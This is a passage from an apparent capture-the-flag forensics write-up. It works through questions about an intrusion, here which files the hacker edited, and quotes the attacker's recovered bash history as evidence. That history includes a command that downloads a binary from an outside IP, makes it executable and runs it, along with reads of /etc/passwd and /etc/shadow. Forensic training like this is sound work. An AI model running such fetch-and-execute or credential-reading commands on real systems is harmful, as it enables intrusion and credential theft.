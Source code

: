 ```console
git commit
git push origin master
cd ../
cat README.md
```

__Answer: vim ~/.bashrc__
</div>

<div class="rBorder" markdown="1">
<span style="color:red">6. __What is the second file the hacker modified the contents of?__</span>

Same as above... just look at the next vim edit!

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: vim /etc/hosts__
</div>
